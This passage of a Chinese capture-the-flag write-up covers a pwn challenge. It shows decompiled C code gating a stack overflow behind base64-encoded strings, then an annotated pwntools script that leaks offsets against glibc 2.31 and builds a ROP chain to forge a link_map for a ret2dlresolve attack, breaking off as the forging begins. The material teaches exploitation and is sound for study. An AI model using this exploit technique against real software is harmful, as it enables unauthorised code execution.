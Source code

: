 ```c
  memset(s1, 0, sizeof(s1));
  read(0, s, 0x30uLL);
  base_decode(s, s1);
  if ( strcmp(s1, "tell you a secret:") )
    return 0;
  memset(s, 0, sizeof(s));
  memset(s1, 0, sizeof(s1));
  read(0, s, 0x40uLL);
  base_decode(s, s1);
  if ( strcmp(s1, "I'M RUNNING ON GLIBC 2.31-0ubuntu9.9") )
    return 0;
  memset(s, 0, sizeof(s));
  memset(s1, 0, sizeof(s1));
  read(0, s, 0x40uLL);
  base_decode(s, s1);
  if ( !strcmp(s1, "can you find me?") )
    next();
  return 0;
}
```

题目逻辑很简单，在输入四个base64编码的字符串后，存在一个可以栈溢出0x1D0的漏洞，程序开启保护如下：

![image-20230423195527501](C:\Users\w1z4rd\AppData\Roaming\Typora\typora-user-images\image-20230423195527501.png)

接下来按照上述原理利用该题目 ，注释写的很详细

```python
from pwn import *
p=process('./pwn')
context(arch='amd64',os='linux',log_level='debug')
#r=gdb.debug('./pwn')#,'b *0x4013e1')
elf=ELF('./pwn')
libc=ELF('/home/w1z4rd/CTF/tools/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc-2.31.so')

def debug():
    context.terminal=['gnome-terminal','sh','-x']
    gdb.attach(r)
    pause()

p.send('V2VsY29tZSB0byBOS0NURiE=')
sleep(0.5)
p.send('dGVsbCB5b3UgYSBzZWNyZXQ6')
sleep(0.5)
p.send('SSdNIFJVTk5JTkcgT04gR0xJQkMgMi4zMS0wdWJ1bnR1OS45')
sleep(0.5)
p.send('Y2FuIHlvdSBmaW5kIG1lPw==')
sleep(0.5)
fun_addr = 0x4013c4
read_plt=elf.plt['read']
read_got=elf.got['read']
bss = 0x0000000000404060
l_addr = libc.sym['system'] - libc.sym['read'] #选取read函数为目标函数，计算read函数与system的偏移
r_offset=bss+l_addr *-1
if l_addr<0: #由于便宜通常为负值，这里我们将其改正
    l_addr=l_addr + 0x10000000000000000
pop_rdi = 0x0000000000401683
pop_rsi = 0x0000000000401681
plt_load= 0x0000000000401026 #完成linkmap构造后，使程序进入dlresolve函数的入口
payload=b'a'*0x38 +p64(pop_rsi) + p64(bss + 0x100) + p64(0) + p64(pop_rdi) +p64(0) +p64(read_plt) +p64(fun_addr) #将linkmap伪造在bss+0x100的地方，并再次返回到漏洞函数，以便进行第二次读入
sleep(0.1)
p.send(payload)
#开始伪造linkmap
```